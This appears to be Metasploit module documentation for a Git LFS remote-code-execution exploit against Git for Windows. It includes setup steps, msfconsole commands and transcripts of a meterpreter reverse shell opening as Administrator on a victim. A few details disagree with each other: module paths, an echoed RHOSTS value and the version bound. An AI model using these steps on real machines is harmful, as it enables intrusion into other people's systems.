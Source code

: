 ## Vulnerable Application

Git in versions <= 2.29.2 includes git-lfs extension which allows remote attackers to execute arbitrary code on the 
victim's Windows system upon a clone operation. Attackers are able to plant a backdoor in the root directory of a 
malicious repository by simply adding an executable file named git.exe or any other executable extension available on 
the target Windows system (PATHEXT environment variable dependent). As a result, the malicious git binary will get 
executed automatically instead of the original git binary located in a trusted path, when the repository is cloned.

### Vulnerable Installation

1. Download a vulnerable version of Git for Windows: [v2.28.0](https://github.com/git-for-windows/git/releases/download/v2.28.0.windows.1/Git-2.28.0-64-bit.exe)
2. On the `Select Components` section of the installer, make sure Git LFS is selected (should be by default)
3. You should now be able to run the exploit and get a session on Windows

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/multi/http/git_lfs_rce`
4. Do: `run`
5. Ensure the exploit sets up a repository to be cloned, ex: `http://192.168.123.1:8080/fixflex.git`
6. From the victim machine, clone the repository created by the exploit.
7. You should get a shell.

## Scenarios
### Git `v2.28.0` on Windows 10 (2004)
```
msf > use windows/http/git_lfs_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/git_lfs_rce) > set LHOST 172.16.199.1
LHOST => 172.16.199.1
msf exploit(windows/http/git_lfs_rce) > set RHOSTS 172.16.199.151
RHOSTS => 172.16.199.151
msf exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.199.1:4444 
msf exploit(windows/http/git_lfs_rce) > 
[*] Using URL: http://0.0.0.0:8080/4C11tyW2NVX
[*] Local IP: http://192.168.2.114:8080/4C11tyW2NVX
[*] Server started.
[*] Git repository to clone: http://172.16.199.1:8080/cookley.git
[*] Sending payload data...
[*] Sending LFS object...
[*] Sending stage (200262 bytes) to 172.16.199.151
[+] Deleted .gitattributes
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.151:50018) at 2021-09-07 12:05:55 -0400
msf exploit(windows/http/git_lfs_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-13BFU78\Administrator
meterpreter > sysinfo
Computer        : DESKTOP-13BFU78
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Git `v2.32.0` on Windows 10 20H2
```
msf > use windows/http/git_lfs_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/git_lfs_rce) > set LHOST 192.168.123.1
LHOST => 192.168.123.1
msf exploit(windows/http/git_lfs_rce) > set RHOSTS 192.168.123.150
RHOSTS => 172.16.199.151
msf exploit(windows/http/git_lfs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.123.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
msf exploit(windows/http/git_lfs_rce) > [*] Using URL: http://0.0.0.0:8080/15VCXHvHTOq5O
[*] Local IP: http://192.168.2.114:8080/15VCXHvHTOq5O
[*] Server started.
[*] Git repository to clone: http://192.168.123.1:8080/fixflex.git
[-] Exception handling request: The git client needs to be running on windows with a version less than 2.29.2. The client found was running on: Windows and was version: 2.32.0
```
